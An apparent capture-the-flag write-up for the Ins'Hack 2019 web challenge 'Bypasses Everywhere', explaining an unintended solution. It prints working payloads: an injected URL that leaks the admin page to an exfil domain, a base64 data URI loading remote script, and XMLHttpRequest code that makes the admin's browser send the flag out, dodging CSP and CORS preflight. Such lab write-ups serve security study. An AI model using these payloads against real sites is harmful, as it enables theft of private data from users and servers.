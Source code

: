 ```yaml
---
layout: post
title:  "Ins'Hack 2019 - Bypasses Everywhere"
date:   2019-05-07 13:37
categories: [InsHack2019]
tags: [Web]
author: jbz
---
```


The challenge description was minimal:
```
I’m selling very valuable stuff for a reasonable amount of money (for me 
at least). Go check it out!

https://bypasses-everywhere.ctf.insecurity-insa.fr
```

### TL;DR ###

This writeup is about our uninteded solution of a very cool Web 
challenge by [Hugo DELVAL](https://twitter.com/HugoDelval).
The intended solution was about triggering an XSS and bypass the CSP via 
a JSONP endpoint on www.google.com.
Our solution abused the `data:[<mediatype>][;base64],<data>` URIs to get 
JavaScript execution.
The intended solution can be found 
[here](https://github.com/InsecurityAsso/inshack-2019/blob/master/bypasses-everywhere/writeup.md) 
and 
[here](https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere).

### Recon ###

The target website was basically made of 2 pages:
 - `/article` where you can view articles and you have a bunch of XSSes
 - `/admin` where you can send a link to the admin and you have an XSS 
when the link is visited

The various pages were protected with a pretty strict `CSP`:
```
Content-Security-Policy: script-src www.google.com; img-src *; 
default-src 'none'; style-src 'unsafe-inline'
```

### Admin's browser ###

By sending a simple HTTP link to the admin you're able to notice that 
his browser is `HeadlessChrome/73`, meaning we have to deal no only with 
the `CSP`, but also with the `XSS-Auditor`.

```
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, 
like Gecko) HeadlessChrome/73.0.3683.75 Safari/537.36
```

### Leaking admin's page ###

In the admin page there was the following text, just after the url 
`input` field:
```
I'm usually connecting to this page using http://127.0.0.1:8080, so I'm 
pretty sure this page is safe :)
```
So we thought we had a way to leak somehow the content of that page, 
without breaking the `CSP` and triggering the `XSS-Auditor`.

Finally we managed to do it by injecting a new `<img>` tag with as 
source our domain, followed by the page's content.

We basically sent as URL to the admin:
`http://127.0.0.1:8080/admin?url=c"><img src='https://exfil.jbz.team/a`

The browser was so nice to close the `src` attribute once he found the 
`'` in the `I'm usualy ...` text and sent us the page's content in the 
request's path, which after some beautifying resulted in:

```
from flask import request, render_template
from flask_csp.csp import csp_header
import requests
import re

with open("flag.txt") as f:
    FLAG = f.read()
def _local_access() -> bool:
    if request.referrer is not None and not 
re.match(r"^http://127\.0\.0\.1(:/d+)?/", request.referrer):
        return False
    return request.remote_addr == "127.0.0.1"
def routes(app, csp):
    @csp_header(csp)
    @app.route("/admin")
    def adm():
        url = request.args.get("picture")
        if _local_access():
            with open(__file__) as f:
                code = f.read()
        else:
            code = None
        return render_template("admin.html", url=url, code=code)
    @csp_header(csp)
    @app.route("/article", methods = ["POST"])
    def secret():
        try:
            assert _local_access()
            data = request.get_json(force=True)
            assert data["secret"] == "No one will never ever access this 
beauty"
            requests.post(data["url"], data={
                "flg": FLAG,
            }, timeout=2)
            return "yeah!"
        except Exception as e:
            app.logger.error(e)
            return
```

### Bypassing ~~everything~~ and getting the ~~FLAG~~ ###

The leaked code is pretty trivial, what is needed to do to get the flag 
is:
 - Sending a `POST` request to `/article` with a specific `secret` and 
the `url` where we will receive the `flag`
 - The request must be sent by the `admin` as his IP is `127.0.0.1`
 - If a referrer is set it must be `127.0.0.1[:port]`
 
After some brainstorming we realized that the solution was as easy as 
submitting a [data 
URI](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs) 
to the admin.

We've build a `data` URI which injected some `JavaScript` in a blank 
page and submitted the required request without a referrer and finally 
we received the ~~flag~~.

**Data URI**
```
data:text/html;base64,PHNjcmlwdD5jb25zb2xlLmxvZygxKTwvc2NyaXB0PjxzY3JpcHQgc3JjPSJodHRwOi8vamJ6LnRlYW06ODA4MC9hLmpzIj48L3NjcmlwdD4=
```

**a.js**
```
x=new XMLHttpRequest();
x.open("POST","http://127.0.0.1:8080/article");
x.setRequestHeader("Content-Type", "application/json");
x.send(JSON.stringify({"secret":"No one will never ever access this 
beauty","url":"http://exfil.jbz.team/"}));
```

We received no `FLAG` and after some debugging we realized that the 
browser was trying to send a `preflight` request as the `Content-Type` 
was set to `application/json`, which was obviously failing as the server 
was not responding with the required `Allowing-*` headers.

### Last but not least bypass and (finally) FLAG ###

How can we send a `json` request without sending a `json` request?

We went back to the source code and noticed the `data = 
request.get_json(force=True)` line, which brought us to [Flask's 
documentation](http://flask.pocoo.org/docs/1.0/api/#flask.Request.get_json):
```
Parse and return the data as JSON. If the mimetype does not indicate 
JSON (application/json, see is_json()), this returns None unless force 
is true.
```

So we can just set as `Content-Type` anything which does not trigger the 
`preflight` mechanism? Let's try!

**new a.js**
```
x=new XMLHttpRequest();
x.open("POST","http://127.0.0.1:8080/article");
x.setRequestHeader("Content-Type", "text/plain");
x.send(JSON.stringify({"secret":"No one will never ever access this 
beauty","url":"http://exfil.jbz.team/"}));
```

And BOOM, we received the `FLAG` via `POST` to 
`https://exfil.jbz.team/`!

`Flag: 
flg=INSA{f330a6678b14df79b05f63040537b384e4c87c87525de8d396b43250988bdfaa}`
